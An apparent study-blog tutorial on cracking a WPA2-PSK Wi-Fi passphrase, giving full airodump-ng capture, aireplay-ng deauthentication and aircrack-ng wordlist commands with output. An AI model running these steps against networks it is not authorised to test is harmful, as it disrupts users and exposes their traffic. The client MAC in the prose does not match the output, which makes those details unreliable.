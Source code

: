 ```yaml
---
description: >-
  Cracking Hashes
title:  Cracking Hashes      # Add title here
date: 2023-09-26 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Attacks]                     # Change Templates to Writeup
tags: [wireless, cracking hashes]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Methodology

First, we'll need to capture a handshake. 
Next, we will make a guess at the passphrase and send that guess into the hash function. 
We will then compare the output from the hash function to the handshake.

### Capturing the Handshake

We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.
```bash
sudo airodump-ng wlan0
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -67        4        0    0  11  720   WPA2 CCMP   PSK  PUMA5_GOL   
 XX:XX:XX:XX:XX:XX  -69        4        0    0   8  130   WPA2 CCMP   PSK  Total play may
 XX:XX:XX:XX:XX:XX  -71        3        0    0   2  130   OPN              ClubTotalplay_WiFi_2.4G
 XX:XX:XX:XX:XX:XX  -49       28        0    0  11  195   WPA2 CCMP   PSK  TOTALPLAY_220C3C       
 XX:XX:XX:XX:XX:XX  -61       12        0    0  11  130   WPA2 CCMP   PSK  INFINITUM37FA 
 XX:XX:XX:XX:XX:XX  -67       13        0    0  11  130   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -38       24        3    0  11  195   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -68        3        0    0   6  130   OPN              MXConectado-E 
 XX:XX:XX:XX:XX:XX  -66        4        0    0   6  540   WPA2 CCMP   PSK  IZZI-D49A   
 XX:XX:XX:XX:XX:XX  -61       13        1    0   8  130   WPA2 CCMP   PSK  INFINITUM1500 
 7C:13:1D:B2:3D:A4  -29       42       19    0   5  130   WPA2 CCMP   PSK  Not_Of_Your_Buzzinez <----
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -67    0 - 1e     0        1
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    1e- 1e     0        3
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    0 - 1e     0        2
 7C:13:1D:B2:3D:A4  1E:F4:C6:7B:66:C1  -32    0 - 1e     0        1 <----
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -71    0 - 1e   502        6
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX   -1    1e- 0      0       72                   
```
Our target is the 'Not_Of_Your_Buzzinez' AP, which operates on channel 5. Its BSSID is 7C:13:1D:B2:3D:A4 and it has one client with a MAC address of 00:18:4D:1D:A8:1F. The AUTH column shows the AP has an authentication type of PSK. This is a good sign. aircrack-ng does not work when the authentication is Enterprise (MGT), as it requires a different set of tools. Opportunistic Wireless Encryption cannot be cracked yet.

Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 5 -w wpa --essid 'Not_Of_Your_Buzzinez' --bssid 7C:13:1D:B2:3D:A4 wlan0
```

With the airodump-ng running we then proceed to deauthenticate the user from the AP with aireplay-ng. We'll use the -0 1 option to deauthenticate once, and -a to target our BSSID. We'll use -c to identify the associated client, and finally specify wlan0mon for our listening interface.
```bash
sudo aireplay-ng -0 1 -a 7C:13:1D:B2:3D:A4 -c 1E:F4:C6:7B:66:C1 wlan0
```

### Cracking the Hash

Now that we have captured a handshake, cracking it is relatively easy. We run aircrack-ng against our recently created capture file, wpa-01.cap. We'll use a list of commonly used passwords, also known as a wordlist, located at /usr/share/john/password.lst. We'll use -w to specify the path to our wordlist. Next, we'll use -e to indicate which ESSID to target, and then -b to specify the BSSID.

```bash
aircrack-ng -w /usr/share/john/password.lst -e 'Not_Of_Your_Buzzinez' -b 7C:13:1D:B2:3D:A4 wpa-01.cap
                               Aircrack-ng 1.7 

      [00:00:00] 2/5 keys tested (214.45 k/s) 

      Time left: 0 seconds                                      40.00%

                      KEY FOUND! [ Th1s1s0bvi0uslyN0tTh3P4ssw0rd ]


      Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```